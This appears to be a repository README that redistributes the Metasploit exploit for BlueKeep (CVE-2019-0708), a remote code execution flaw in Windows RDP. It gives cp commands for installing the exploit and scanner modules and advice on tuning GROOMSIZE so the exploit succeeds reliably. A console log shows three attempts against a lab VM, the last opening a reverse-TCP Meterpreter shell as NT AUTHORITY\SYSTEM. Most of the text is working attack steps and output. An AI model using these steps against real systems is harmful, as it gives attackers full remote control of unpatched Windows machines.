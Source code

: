 # bluekeep-exploit
Bluekeep(CVE 2019-0708) exploit released


https://blog.rapid7.com/2019/09/06/initial-metasploit-exploit-module-for-bluekeep-cve-2019-0708/

How To use:

Simply make folder named rdp (for convenience) in /usr/share/metasploit-framework/modules/exploits/windows/
paste this exploit file(cve_2019_0708_bluekeep_rce.rb) in the folder(rdp) and use ur metasploit skills

Also replace the files in following folders:-

rdp.rb --> /usr/share/metasploit-framework/lib/msf/core/exploit/

      cp ./rdp.rb /usr/share/metasploit-framework/lib/msf/core/exploit/rdp.rb      
rdp_scanner.rb --> /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/

      cp ./rdp_scanner.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/rdp_scanner.rb      
cve_2019_0708_bluekeep.rb --> /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/
      
      cp ./cve_2019_0708_bluekeep.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb
cve_2019_0708_bluekeep_rce.rb --> /usr/share/metasploit-framework/modules/exploits/windows/rdp/

      cp ./cve_2019_0708_bluekeep_rce.rb /usr/share/metasploit-framework/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb


like:
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

and then ur general concepts of setting rhosts,lhost,payload etc

Thanks to the Genius Group of People for their wonderful work


Note:[I am not the developer of this exploit but only an ethusiast of learning exploits]


HOW TO MAKE THE EXPLOIT WORK 100% OF THE TIME:

############################

You have to set the GROOMSIZE as show below with different combinations and error
Also my VMWARE(15) windows hardware was 2GB RAM and 1 Core processor

Conclusion setting GROOMSIZE to 50 worked as good as gold


############################

      msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set GROOMSIZE 100
     GROOMSIZE => 100
     msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > run

     [*] Started reverse TCP handler on 192.168.43.84:4444 
     [*] 192.168.43.137:3389   - Detected RDP on 192.168.43.137:3389   (Windows version: 6.1.7601) (Requires NLA: No)
     [+] 192.168.43.137:3389   - The target is vulnerable.
     [*] 192.168.43.137:3389 - Using CHUNK grooming strategy. Size 100MB, target address 0xfffffa801f000000, Channel count 1.
     [*] 192.168.43.137:3389 - Surfing channels ...
     [*] 192.168.43.137:3389 - Lobbing eggs ...
     [*] 192.168.43.137:3389 - Forcing the USE of FREE'd object ...
     [*] Exploit completed, but no session was created.
     msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set GROOMSIZE 150
     GROOMSIZE => 150
     msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > run

     [*] Started reverse TCP handler on 192.168.43.84:4444 
     [*] 192.168.43.137:3389   - Detected RDP on 192.168.43.137:3389   (Windows version: 6.1.7601) (Requires NLA: No)
     [+] 192.168.43.137:3389   - The target is vulnerable.
     [*] 192.168.43.137:3389 - Using CHUNK grooming strategy. Size 150MB, target address 0xfffffa8022200000, Channel count 1.
     [*] 192.168.43.137:3389 - Surfing channels ...
     [*] 192.168.43.137:3389 - Lobbing eggs ...
     [-] 192.168.43.137:3389 - Exploit failed [disconnected]: Errno::ECONNRESET Connection reset by peer
     [*] Exploit completed, but no session was created.
     msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set GROOMSIZE 50
     GROOMSIZE => 50
     msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > run

     [*] Started reverse TCP handler on 192.168.43.84:4444 
     [*] 192.168.43.137:3389   - Detected RDP on 192.168.43.137:3389   (Windows version: 6.1.7601) (Requires NLA: No)
     [+] 192.168.43.137:3389   - The target is vulnerable.
     [*] 192.168.43.137:3389 - Using CHUNK grooming strategy. Size 50MB, target address 0xfffffa801be00000, Channel count 1.
     [*] 192.168.43.137:3389 - Surfing channels ...
     [*] 192.168.43.137:3389 - Lobbing eggs ...
     [*] 192.168.43.137:3389 - Forcing the USE of FREE'd object ...
     [*] Sending stage (206403 bytes) to 192.168.43.137
     [*] Meterpreter session 2 opened (192.168.43.84:4444 -> 192.168.43.137:51854) at 2019-09-10 22:59:44 +0530

     meterpreter > getuid
     Server username: NT AUTHORITY\SYSTEM
     meterpreter > 

  
